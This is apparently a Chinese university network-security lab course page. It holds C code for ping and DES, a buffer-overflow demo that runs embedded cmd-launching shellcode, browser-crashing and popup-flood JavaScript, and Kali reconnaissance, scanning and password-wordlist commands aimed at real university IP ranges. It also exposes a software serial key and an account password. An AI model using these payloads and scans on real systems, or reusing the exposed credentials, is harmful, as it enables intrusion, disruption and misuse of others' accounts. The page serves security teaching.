


实验教学
实验共16学时，分为Windows和Kali平台两部分，可以自行或集体上机方式按要求完成。
实验共16学时，分为Windows和Kali平台两部分，可以自行或集体上机方式按要求完成。
以下实验在Windows平台下进行，请注意各实验说明。
Raw socket（原始套接字）可以进行IP层次的操作，常用于进行自行的IP包封装（当然伪造IP地址也就不在话下）。
请在任何一个C语言编译环境中粘贴 ，生成exe文件后拷贝到C盘根目录运行。有兴趣的同学可进一步探究源代码。
/*ping源代码，生成exe文件后在dos窗口运行即可。*/
#pragma pack(4)
#pragma comment(lib,"ws2_32.lib")
#include "winsock2.h"
#include "stdlib.h"
#include "stdio.h"
#define ICMP_ECHO 8
#define ICMP_ECHOREPLY 0
#define ICMP_MIN 8 // minimum 8 byte icmp packet (just header)
/* The IP header */
typedef struct iphdr{
unsigned int h_len:4; // length of the header
unsigned int version:4; // Version of IP
unsigned char tos; // Type of service
unsigned short total_len; // total length of the packet
unsigned short ident; // unique identifier
unsigned short frag_and_flags; // flags
unsigned char ttl;
unsigned char proto; // protocol (TCP, UDP etc)
unsigned short checksum; // IP checksum
unsigned int sourceIP;
unsigned int destIP;
}IpHeader;
//
// ICMP header
//
typedef struct icmphdr{
BYTE i_type;
BYTE i_code; /* type sub code */
USHORT i_cksum;
USHORT i_id;
USHORT i_seq;
/* This is not the std header, but we reserve space for time */
ULONG timestamp;
}IcmpHeader;
#define STATUS_FAILED 0xFFFF
#define DEF_PACKET_SIZE 32
#define DEF_PACKET_NUMBER 4 /* 发送数据报的个数 */
#define MAX_PACKET 1024
#define xmalloc(s) HeapAlloc(GetProcessHeap(),HEAP_ZERO_MEMORY,(s))
#define xfree(p) HeapFree (GetProcessHeap(),0,(p))
void Usage(char *progname);
void fill_icmp_data(char *, int);
USHORT checksum(USHORT *, int);
int decode_resp(char *,int ,struct sockaddr_in *);
int main(int argc, char **argv){
WSADATA wsaData;
SOCKET sockRaw;
struct sockaddr_in dest,from;
struct hostent * hp;
int bread,datasize,times;
int fromlen = sizeof(from);
int timeout = 1000;
int statistic = 0; /* 用于统计结果 */
char *dest_ip;
char *icmp_data;
char *recvbuf;
unsigned int addr=0;
USHORT seq_no = 0;
if (WSAStartup(MAKEWORD(2,1),&wsaData) != 0){
fprintf(stderr,"WSAStartup failed: %d\n",GetLastError());
ExitProcess(STATUS_FAILED);
}
if (argc <2 ){
Usage(argv[0]);
}
sockRaw = WSASocket(AF_INET,SOCK_RAW,IPPROTO_ICMP,NULL, 0,WSA_FLAG_OVERLAPPED);
//
//注：为了使用发送接收超时设置(即设置SO_RCVTIMEO, SO_SNDTIMEO)，
// 必须将标志位设为WSA_FLAG_OVERLAPPED !
//
if (sockRaw == INVALID_SOCKET){
fprintf(stderr,"WSASocket() failed: %d\n",WSAGetLastError());
ExitProcess(STATUS_FAILED);
}
bread = setsockopt(sockRaw,SOL_SOCKET, SO_RCVTIMEO, (char*)&timeout, sizeof(timeout));
if(bread == SOCKET_ERROR){
fprintf(stderr,"failed to set recv timeout: %d\n",WSAGetLastError());
ExitProcess(STATUS_FAILED);
}
timeout = 1000;
bread = setsockopt(sockRaw,SOL_SOCKET,SO_SNDTIMEO,(char*)&timeout,sizeof(timeout));
if(bread == SOCKET_ERROR){
fprintf(stderr,"failed to set send timeout: %d\n",WSAGetLastError());
ExitProcess(STATUS_FAILED);
}
memset(&dest,0,sizeof(dest));
hp = gethostbyname(argv[1]);
if (!hp){
addr = inet_addr(argv[1]);
}
if ((!hp) && (addr == INADDR_NONE) ){
fprintf(stderr,"Unable to resolve %s\n",argv[1]);
ExitProcess(STATUS_FAILED);
}
if (hp != NULL)
memcpy(&(dest.sin_addr),hp->h_addr,hp->h_length);
else
dest.sin_addr.s_addr = addr;
if (hp)
dest.sin_family = hp->h_addrtype;
else
dest.sin_family = AF_INET;
dest_ip = inet_ntoa(dest.sin_addr);
if(argc>2){
times=atoi(argv[2]);
if(times == 0)
times=DEF_PACKET_NUMBER;
}else
times=DEF_PACKET_NUMBER;
if(argc >3){
datasize = atoi(argv[3]);
if (datasize == 0)
datasize = DEF_PACKET_SIZE;
if (datasize >1024) /* 用户给出的数据包大小太大 */
{
fprintf(stderr,"WARNING : data_size is too large !\n");
datasize = DEF_PACKET_SIZE;
}
}else
datasize = DEF_PACKET_SIZE;
datasize += sizeof(IcmpHeader);
icmp_data = (char*)xmalloc(MAX_PACKET);
recvbuf = (char*)xmalloc(MAX_PACKET);
if (!icmp_data)
{
fprintf(stderr,"HeapAlloc failed %d\n",GetLastError());
ExitProcess(STATUS_FAILED);
}
memset(icmp_data,0,MAX_PACKET);
fill_icmp_data(icmp_data,datasize);
//
//显示提示信息
//
fprintf(stdout,"\nPinging %s ....\n\n",dest_ip);
for(int i=0; i < times; i++)
{
int bwrote;
((IcmpHeader*)icmp_data)->i_cksum = 0;
((IcmpHeader*)icmp_data)->timestamp = GetTickCount();
((IcmpHeader*)icmp_data)->i_seq = seq_no++;
((IcmpHeader*)icmp_data)->i_cksum = checksum((USHORT*)icmp_data,datasize);
bwrote = sendto(sockRaw,icmp_data,datasize,0,(struct sockaddr*)&dest,sizeof(dest));
if (bwrote == SOCKET_ERROR)
{
if (WSAGetLastError() == WSAETIMEDOUT) {
printf("Request timed out.\n");
continue;
}
fprintf(stderr,"sendto failed: %d\n",WSAGetLastError());
ExitProcess(STATUS_FAILED);
}
if (bwrote < datasize ) {
fprintf(stdout,"Wrote %d bytes\n",bwrote);
}
bread = recvfrom(sockRaw,recvbuf,MAX_PACKET,0,(struct sockaddr*)&from,&fromlen);
if (bread == SOCKET_ERROR)
{
if (WSAGetLastError() == WSAETIMEDOUT)
{
printf("Request timed out.\n");
continue;
}
fprintf(stderr,"recvfrom failed: %d\n",WSAGetLastError());
ExitProcess(STATUS_FAILED);
}
if(!decode_resp(recvbuf,bread,&from))
statistic++; /* 成功接收的数目++ */
Sleep(1000);
}
/*
Display the statistic result
*/
fprintf(stdout,"\nPing statistics for %s \n",dest_ip);
fprintf(stdout,"Packets: Sent = %d,Received = %d, Lost = %d (%2.0f%% loss)\n",times,
statistic,(times-statistic),(float)(times-statistic)/times*100);
WSACleanup();
return 0;
}
void Usage(char *progname)
{
fprintf(stderr,"Usage:\n");
fprintf(stderr,"%s [number of packets] [data_size]\n",progname);
fprintf(stderr,"datasize can be up to 1Kb\n");
ExitProcess(STATUS_FAILED);
}
/*
The response is an IP packet. We must decode the IP header to locate
the ICMP data
*/
int decode_resp(char *buf, int bytes, struct sockaddr_in *from)
{
IpHeader *iphdr;
IcmpHeader *icmphdr;
unsigned short iphdrlen;
iphdr = (IpHeader *)buf;
iphdrlen = (iphdr->h_len) * 4 ; // number of 32-bit words *4 = bytes
if (bytes < iphdrlen + ICMP_MIN)
{
printf("Too few bytes from %s\n",inet_ntoa(from->sin_addr));
}
icmphdr = (IcmpHeader*)(buf + iphdrlen);
if (icmphdr->i_type != ICMP_ECHOREPLY)
{
fprintf(stderr,"non-echo type %d recvd\n",icmphdr->i_type);
return 1;
}
if (icmphdr->i_id != (USHORT)GetCurrentProcessId())
{
fprintf(stderr,"someone else''s packet!\n");
return 1;
}
printf("%d bytes from %s:",bytes, inet_ntoa(from->sin_addr));
printf(" icmp_seq = %d. ",icmphdr->i_seq);
printf(" time: %d ms ",GetTickCount()-icmphdr->timestamp);
printf("\n");
return 0;
}
USHORT checksum(USHORT *buffer, int size)
{
unsigned long cksum=0;
while(size >1)
{
cksum+=*buffer++;
size -=sizeof(USHORT);
}
if(size)
{
cksum += *(UCHAR*)buffer;
}
cksum = (cksum >> 16) + (cksum & 0xffff);
cksum += (cksum >>16);
return (USHORT)(~cksum);
}
/*
Helper function to fill in various stuff in our ICMP request.
*/
void fill_icmp_data(char * icmp_data, int datasize)
{
IcmpHeader *icmp_hdr;
char *datapart;
icmp_hdr = (IcmpHeader*)icmp_data;
icmp_hdr->i_type = ICMP_ECHO;
icmp_hdr->i_code = 0;
icmp_hdr->i_id = (USHORT)GetCurrentProcessId();
icmp_hdr->i_cksum = 0;
icmp_hdr->i_seq = 0;
datapart = icmp_data + sizeof(IcmpHeader);
//
// Place some junk in the buffer.
//
memset(datapart,'E', datasize - sizeof(IcmpHeader));
}
对称加密DES（Data Encryption Standard）是最早的一种现代加密方法。
请在任何一个C语言编译环境中粘贴 ，直接运行即可。有兴趣的同学可进一步探究源代码。
#include "memory.h"
#include "stdio.h"
enum {ENCRYPT,DECRYPT};// ENCRYPT:加密,DECRYPT:解密
void Des_Run(char Out[8], char In[8], bool Type=ENCRYPT);
// 设置密钥
void Des_SetKey(const char Key[8]);
static void F_func(bool In[32], const bool Ki[48]);// f 函数
static void S_func(bool Out[32], const bool In[48]);// S 盒代替
// 变换
static void Transform(bool *Out, bool *In, const char *Table, int len);
static void Xor(bool *InA, const bool *InB, int len);// 异或
static void RotateL(bool *In, int len, int loop);// 循环左移
// 字节组转换成位组
static void ByteToBit(bool *Out, const char *In, int bits);
// 位组转换成字节组
static void BitToByte(char *Out, const bool *In, int bits);
//置换IP表
const static char IP_Table[64] = {
58,50,42,34,26,18,10,2,60,52,44,36,28,20,12,4,
62,54,46,38,30,22,14,6,64,56,48,40,32,24,16,8,
57,49,41,33,25,17,9,1,59,51,43,35,27,19,11,3,
61,53,45,37,29,21,13,5,63,55,47,39,31,23,15,7
};
//逆置换IP-1表
const static char IPR_Table[64] = {
40,8,48,16,56,24,64,32,39,7,47,15,55,23,63,31,
38,6,46,14,54,22,62,30,37,5,45,13,53,21,61,29,
36,4,44,12,52,20,60,28,35,3,43,11,51,19,59,27,
34,2,42,10,50,18,58,26,33,1,41,9,49,17,57,25
};
//E位选择表
static const char E_Table[48] = {
32,1,2,3,4,5,4,5,6,7,8,9,
8,9,10,11,12,13,12,13,14,15,16,17,
16,17,18,19,20,21,20,21,22,23,24,25,
24,25,26,27,28,29,28,29,30,31,32,1
};
//P换位表
const static char P_Table[32] = {
16,7,20,21,29,12,28,17,1,15,23,26,5,18,31,10,
2,8,24,14,32,27,3,9,19,13,30,6,22,11,4,25
};
//PC1选位表
const static char PC1_Table[56] = {
57,49,41,33,25,17,9,1,58,50,42,34,26,18,
10,2,59,51,43,35,27,19,11,3,60,52,44,36,
63,55,47,39,31,23,15,7,62,54,46,38,30,22,
14,6,61,53,45,37,29,21,13,5,28,20,12,4
};
//PC2选位表
const static char PC2_Table[48] = {
14,17,11,24,1,5,3,28,15,6,21,10,
23,19,12,4,26,8,16,7,27,20,13,2,
41,52,31,37,47,55,30,40,51,45,33,48,
44,49,39,56,34,53,46,42,50,36,29,32
};
//左移位数表
const static char LOOP_Table[16] = {
1,1,2,2,2,2,2,2,1,2,2,2,2,2,2,1
};
// S盒
const static char S_Box[8][4][16] = {
// S1
14,4,13,1,2,15,11,8,3,10,6,12,5,9,0,7,
0,15,7,4,14,2,13,1,10,6,12,11,9,5,3,8,
4,1,14,8,13,6,2,11,15,12,9,7,3,10,5,0,
15,12,8,2,4,9,1,7,5,11,3,14,10,0,6,13,
//S2
15,1,8,14,6,11,3,4,9,7,2,13,12,0,5,10,
3,13,4,7,15,2,8,14,12,0,1,10,6,9,11,5,
0,14,7,11,10,4,13,1,5,8,12,6,9,3,2,15,
13,8,10,1,3,15,4,2,11,6,7,12,0,5,14,9,
//S3
10,0,9,14,6,3,15,5,1,13,12,7,11,4,2,8,
13,7,0,9,3,4,6,10,2,8,5,14,12,11,15,1,
13,6,4,9,8,15,3,0,11,1,2,12,5,10,14,7,
1,10,13,0,6,9,8,7,4,15,14,3,11,5,2,12,
//S4
7,13,14,3,0,6,9,10,1,2,8,5,11,12,4,15,
13,8,11,5,6,15,0,3,4,7,2,12,1,10,14,9,
10,6,9,0,12,11,7,13,15,1,3,14,5,2,8,4,
3,15,0,6,10,1,13,8,9,4,5,11,12,7,2,14,
//S5
2,12,4,1,7,10,11,6,8,5,3,15,13,0,14,9,
14,11,2,12,4,7,13,1,5,0,15,10,3,9,8,6,
4,2,1,11,10,13,7,8,15,9,12,5,6,3,0,14,
11,8,12,7,1,14,2,13,6,15,0,9,10,4,5,3,
//S6
12,1,10,15,9,2,6,8,0,13,3,4,14,7,5,11,
10,15,4,2,7,12,9,5,6,1,13,14,0,11,3,8,
9,14,15,5,2,8,12,3,7,0,4,10,1,13,11,6,
4,3,2,12,9,5,15,10,11,14,1,7,6,0,8,13,
//S7
4,11,2,14,15,0,8,13,3,12,9,7,5,10,6,1,
13,0,11,7,4,9,1,10,14,3,5,12,2,15,8,6,
1,4,11,13,12,3,7,14,10,15,6,8,0,5,9,2,
6,11,13,8,1,4,10,7,9,5,0,15,14,2,3,12,
//S8
13,2,8,4,6,15,11,1,10,9,3,14,5,0,12,7,
1,15,13,8,10,3,7,4,12,5,6,11,0,14,9,2,
7,11,4,1,9,12,14,2,0,6,10,13,15,3,5,8,
2,1,14,7,4,10,8,13,15,12,9,0,3,5,6,11
};
static bool SubKey[16][48];// 16圈子密钥
void Des_Run(char Out[8], char In[8], bool Type)
{
static bool M[64], Tmp[32], *Li = &M[0], *Ri = &M[32];
ByteToBit(M, In, 64);
Transform(M, M, IP_Table, 64);
if( Type == ENCRYPT ){
for(int i=0; i<16; i++) {
memcpy(Tmp, Ri, 32);
F_func(Ri, SubKey[i]);
Xor(Ri, Li, 32);
memcpy(Li, Tmp, 32);
}
}else{
for(int i=15; i>=0; i--) {
memcpy(Tmp, Li, 32);
F_func(Li, SubKey[i]);
Xor(Li, Ri, 32);
memcpy(Ri, Tmp, 32);
}
}
Transform(M, M, IPR_Table, 64);
BitToByte(Out, M, 64);
}
void Des_SetKey(const char Key[8])
{
static bool K[64], *KL = &K[0], *KR = &K[28];
ByteToBit(K, Key, 64);
Transform(K, K, PC1_Table, 56);
for(int i=0; i<16; i++) {
RotateL(KL, 28, LOOP_Table[i]);
RotateL(KR, 28, LOOP_Table[i]);
Transform(SubKey[i], K, PC2_Table, 48);
}
}
void F_func(bool In[32], const bool Ki[48])
{
static bool MR[48];
Transform(MR, In, E_Table, 48);
Xor(MR, Ki, 48);
S_func(In, MR);
Transform(In, In, P_Table, 32);
}
void S_func(bool Out[32], const bool In[48])
{
for(char i=0,j,k; i<8; i++,In+=6,Out+=4) {
j = (In[0]<<1) + In[5];
k = (In[1]<<3) + (In[2]<<2) + (In[3]<<1) + In[4];
ByteToBit(Out, &S_Box[i][j][k], 4);
}
}
void Transform(bool *Out, bool *In, const char *Table, int len)
{
static bool Tmp[256];
for(int i=0; i < len; i++)
Tmp[i] = In[ Table[i]-1 ];
memcpy(Out, Tmp, len);
}
void Xor(bool *InA, const bool *InB, int len)
{
for(int i=0; i < len; i++)
InA[i] ^= InB[i];
}
void RotateL(bool *In, int len, int loop)
{
static bool Tmp[256];
memcpy(Tmp, In, loop);
memcpy(In, In+loop, len-loop);
memcpy(In+len-loop, Tmp, loop);
}
void ByteToBit(bool *Out, const char *In, int bits)
{
for(int i=0; i < bits; i++)
Out[i] = (In[i/8]>>(i%8)) & 1;
}
void BitToByte(char *Out, const bool *In, int bits)
{
memset(Out, 0, (bits+7)/8);
for(int i=0; i < bits; i++)
Out[i/8] |= In[i]<<(i%8);
}
void main()
{
char key[8]={1,9,8,0,9,1,7,2},str[]="这是要加密的文字";
puts("Before encrypting");
puts(str);
Des_SetKey(key);
Des_Run(str, str, ENCRYPT);
puts("After encrypting");
puts(str);
puts("After decrypting");
Des_Run(str, str, DECRYPT);
puts(str);
}
非对称加密RSA是当前广泛使用的现代公钥加密方法。它解决了对称加密的密钥空间大、密钥传输困难等一些问题。但由于其计算量大，故多用于对小数据量如哈希值进行加密。
请下载 RSA程序 进行测试，了解其过程。有兴趣的同学可进一步探究其 源代码 。（请在vc6中打开工程文件，高版本中需要进行转换）
数字摘要/指纹是指信息的唯一固定长度值，主要有MD5和SHA两种，多用于不需要保密但要求完整性的情形。
请下载 Hash计算程序 进行测试，了解其过程（改变任意一位则其摘要将发生变化）。有兴趣的同学可进一步探究MD5的源码 MD5C++源代码 。
另外，网站XMD5还可对一些简单的MD5值进行验证，可自行 前往 ，相信会有收获！
信息隐藏是指利用图片、音频、视频等作为载体保存额外的信息，同时其画质、音质等几乎不发生改变的技术。目前多用于数字作品的版权等方面，故也称为数字水印。
请下载 信息隐藏程序 进行测试，了解其过程及原理。
隐藏信息：
运行S-Tools后，拖入原始图片（BMP格式）或音频文件，再拖入要隐藏的文件到图片上，弹出对话框要求输入提取的口令及加密方式，然后点击右键将该文件另存为即可；
提取信息：
运行S-Tools后，拖入隐藏有信息的图片或音频文件，点击右键点击提取即可（当然需要口令）。
提取斑马图片中的文本口令为abc。
另一个密写技术软件 StegHide程序 ，支持BMP、JPEG、WAV等格式，可前往其官网了解原理。
请阅读以下代码，生成对应文件进行测试
/*C语言程序。*/
#include "stdio.h"
void malice(){
printf("Hey, 你已经被攻击了！\n");
//模拟的恶意程序malice
unsigned char shellcode[] = {
// Windows 2000, Windows 2003, Windows XP
// Windows Vista, Windows 7通用cmd Shellcode
"\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
"\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
"\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
"\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
"\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
"\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
"\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
"\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
"\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
"\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
"\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
"\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
"\x8E\x03\xD3\x52\x68\x78\x65\x63\x01\xFE"
"\x4C\x24\x03\x68\x57\x69\x6E\x45\x54\x53"
"\xFF\xD2\x68\x63\x6D\x64\x01\xFE\x4C\x24"
"\x03\x6A\x05\x33\xC9\x8D\x4C\x24\x04\x51"
"\xFF\xD0\x68\x65\x73\x73\x01\x8B\xDF\xFE"
"\x4C\x24\x03\x68\x50\x72\x6F\x63\x68\x45"
"\x78\x69\x74\x54\xFF\x74\x24\x20\xFF\x54"
"\x24\x20\x57\xFF\xD0"
};
((void(*)(void)) &shellcode)();
}
void foo(){
int *ret;
ret = (int*)&ret + 2;// 让ret指向存放返回地址的哪个空间的地址，即EIP的地址
*ret = (int)malice; // 设置返回地址为执行malice()
}
void main(){
foo();
printf("回不来了！");
}
<html>
<body>
让IE5崩溃的JavaScript, 消耗系统资源
<script>
var color = new Array;
color[1] = "black";
color[2] = "red";
for(x = 2; x < 3; x++){
document.bgColor = color[x];
if(x == 2){ x = 0;}
}
</script>
</body>
</html>
<html>
<head>
<script language ="JavaScript">
function openwindow(){
for(i = 0; i < 10; i++){
window.open("http://www.cqjtu.edu.cn");
}
}
</script>
</head>
<body onload="openwindow()">
弹出窗口
</body>
</html>
以下实验在虚拟机Kali平台下进行，请注意各实验说明。
请参考以下三本中级Kali渗透测试教程。

请在你的笔记本中安装虚拟机软件 VirtualBox 或 VMware-workstation-12 （VM安装序列号：5A02H-AU243-TZJ49-GTC7K-3C61N） 。再下载功能强大的渗透环境 kali-linux-2017.1 在虚拟机中进行安装。（文件较大，服务器不一定能承受！！不会安装和配置的同学，请自行google！）
也可将Kali独立安装在硬盘或USB上，请自行Goolge
基本配置说明：
apt install virtualbox-guest-x11)，重启生效apt install ibus-pinyin，重启后在设置->语言和区域中添加即可。默认Super+Space切换apt install guake即可安装，完毕后使用Tweaks将其加到开机自动启动，使用guake -p进行设置如透明度之类。以后使用F12调出，F11全屏。自行安装渗透对象（Ubuntu） metasploitable-linux-2 ，渗透对象（XP） WindowsXP-sp2 （请设置administrator的口令为123，启用远程桌面），或者
请下载SSH软件 MobaXterm ，访问如下站点：
Kali中已经内置了Web服务器Apache, 对Apache进行ssl配置请Google
Nginx也是一个优秀的Web服务器，如果没有请使用apt install nginx进行安装（.128 ~ .130机器已经安装了），其主目录仍在/var/www/html/。输入nginx即可启动Nginx服务器，在浏览器中输入localhost进行访问
下面我们使用开源的OpenSSL（目前最流行的 SSL 密码库工具，提供了一个通用、健壮、功能完备的工具套件，用以支持SSL/TLS 协议的实现。2014年曾爆发了Heartbleed漏洞）为该服务器颁发证书，将其配置为安全的Web服务器即HTTPS：
cd /etc/nginx
mkdir cert #专门生成cert目录进行ssl配置实验
cd cert #进入cert目录
openssl genrsa -des3 -out server.key 1024 #生成1024（也可2048）位的私钥，会让你输入一个口令进行DES3（也可使用aes256）加密保护
openssl req -new -key server.key -out server.csr #生成CSR(Cerificate Signing Request)即证书请求文件（含公钥）
cp server.key server.key.org
openssl rsa -in server.key.org -out server.key #使用上述私钥时除去必须的口令
openssl x509 -req -days 365 -in server.csr -signkey server.key -out server.crt #CA签发以CSR文件生成有效期为365天且用私钥签名的证书
server {
listen 443; #侦听端口
server_name localhost; #网站域名
ssl on;
ssl_certificate /etc/nginx/cert/server.crt; #证书路径
ssl_certificate_key /etc/nginx/cert/server.key; #私钥路径
location / {
root /etc/nginx/cert/html; #网站根目录
index index.html index.htm; #缺省html文件
}
}
mkdir /etc/nginx/cert/html
cp 自己的首页文件 /etc/nginx/cert/html #将前面下载的网站文件解压
nginx -t #测试Nginx的配置是否正确
nginx -s reload #重启Nginx（start/stop)
打开浏览器，输入https://localhost进行访问，此时会有安全问题，因为我们的这个服务器证书是自己颁发的，不能通过浏览器的验证，玩玩而已（但我们也可以到相关证书中心进行申请）。
友情提供： Windows平台的OpenSSL
侦察是容易被忽视但其实非常重要的工作。“知己知彼，百战不殆”。对你的目标了解越多，则也可能成功。
可以从对象的网站、 历史归档网站、社交媒体、信任伙伴、招聘信息等着手。
使用不同引擎（百谷搜雅必360等）练习site、intitle、inurl、filetype、cache等搜索指令，使得搜索效率及结果更好。
查看不断更新的 Google Hack DataBase
Shodan是一个可以搜索Internet上的各种设备如计算机、路由器、服务器、摄像头等等的强力引擎, 请探索。
以下pdf为某人的搜索结果
使用以下命令收集有关域或路径的信息。
1. whois baidu.com //查询该域的注册信息
2. host/dig/dnsenum/atk6-dnsdict6/nslookup www.baidu.com //查询其IP等信息
3. theharvester -d cqjtu.edu.cn -l 100 -b baidu //基于百度得到跟该域相关的email，主机等最多100条信息。也可使用bing，Google是不行了:(
4. tcptraceroute www.baidu.com（到目标站点路径追踪，没用可能被过滤的icmp）
以下工具将收集该对象的较全面的信息。
DMitry (Deepmagic Information Gathering Tool)：一个all-in-one信息搜集工具，运行dmitry www.baidu.com
whatweb工具：快速得到Web站点的相关信息（运行whatweb www.cqjtu.edu.cn）
Httrack: 强大的克隆网站工具，可离线对网站进行分析。运行httrack angular.cn，默认即镜像全站。
maltego工具：是社会工程学必备的一个强大的信息收集工具，可得到非常详细的网站、域、个人等方面的信息（ 信息搜集 菜单中maltego（需免费注册才能使用, user：wang@cqjtu.edu.cn, password：kali2017）
arping: 在同一网段中使用arp进行探测, 避免ICMP过滤。arping 10.0.2.2 -c1 (c1表示探测一次)
fping：扫描指定范围内的活动主机（运行fping -s -r 1 -g 202.202.240.0/24）（s显示统计，r为retry，g为范围）
nping：自由构建各种协议的包（TCP，UDP，ICMP， ARP等），如对防火墙过滤ICMP或主机不对ICMP响应的情况，直接定制TCP包进行探测, 如：
nping -c1 --tcp -p 80 --flags syn 202.202.240.6 或
nping -c1 --tcp -p 80 --flags ack 202.202.240.6
netenum：速度超快的活动主机扫描器（运行netenum 202.202.240.0/24 10）（10代表扫描时间为10s，越长越准确）
netdiscover：获取本网段中活动主机及其MAC等信息（netdiscover -r 10.1.74.0/24，如不指定扫描范围，则为被动模式）
nbtscan: 使用NetBIOS协议，专门查找Windows系统:)的主机(有NetBIOS主机名)。（nbtscan 202.202.240.0/24）
常规扫描： nmap 10.1.74.113
强力扫描（更多信息）：nmap -A 10.1.74.113
TCP连接扫描： nmap -sT -p- -PN 10.1.74.113 (sT意为TCP connect scan，p-表示所有端口)
SYN扫描： nmap -sS -p 1-1024 -PN 10.1.74.113
Xmas扫描：nmap -sX -p- -PN 10.1.74.113
Null扫描：nmap -sN -p- -PN 10.1.74.113
另外，也可使用nmap的图形化扫描工具 - zenmap（直接运行zenmap即可）
Nessus可以说是目前全世界最多人使用的系统漏洞扫描与分析软件。其不是开源、免费的软件（也许这才有资金能提供持续的支持），但提供免费使用的个人版，以下为安装及配置步骤：
dpkg -i Nessus-6.10.7-debian6_amd64.deb 命令进行安装。
/etc/init.d/nessusd start 启动Nessus服务(stop停止)/opt/nessus/sbin/nessuscli update all-2.0.tar.gz进行离线安装。
https://安装Nessus计算机的IP:8834(注意是https) 将得到不安全的提示，加入例外即可 /opt/nessus/sbin/nessuscli update all-2.0.tar.gz进行离线安装，
或者运行/opt/nessus/sbin/nessuscli update多次试试 :( 成功后重启NessusNessus扫描出的漏洞我们会在后面的实践中进行利用。
Nessus视频-1 Nessus视频-2OpenVAS是开源、开放式漏洞评估系统，也可以说它是一个包含着相关工具的网络扫描器，其与Nessus齐名。
由于太大，Kali没有内置，请用apt intall openvas安装（只能在线安装，依据网络情况约需10分钟左右，注意请先运行apt update & apt upgrade更新系统利于成功）。
安装完成后，进行以下配置：
漏洞分析菜单 - openvas initial setup 菜单运行（或命令openvas-setup） ，进行初始配置及更新（有点耗时，期间自动生成用户admin和复杂的密码） openvasmd --user=admin --new-password=kali 更改密码为kali
openvas-check-setup 检测是否安装成功
/lib/systemd/system/greenbone-security-assistant.service中的listen配置项改为0.0.0.0。
漏洞分析菜单 - openvas start/stop 菜单运行/停止（或命令openvas-start） ，启动OpenVAS（可使用netstat -antp查看9392端口是否打开以确认OpenVAS是否运行）。
https://安装Openvas计算机的IP:9392，以admin和你上面设置的密码登录
指定目标进行扫描即可，其余模块自行研究。OpenVAS扫描出的漏洞我们也会在后面的实践中进行利用。
OpenVAS视频crunch 1 3 -o pass.list将生成1~3位的字符组合到pass.list文件中。
crunch 3 3 -f /usr/share/crunch/charset.lst lalpha-numeric -o pass.list将生成3位的小写字母数字组合到pass.list文件中。
cewl（Custom Word List）工具可爬取某站点，获取相关的一些关键字从而生成一个字典文件，命令cewl www.cqjtu.edu.cn -m 3 d 3 -e -c -v -w pass.txt将相关关键字写到pass.txt文件中（m-最短3个字符，d-爬网深度，e-包含Email信息，c-出现的次数，v-显示实时信息）。
猜测到某密码可能为cqjtu、12、$组成后，生成一个文件word.list包含这三个词（各占一行），再用命令john --stdout --wordlist=word.list --rules > pass.list
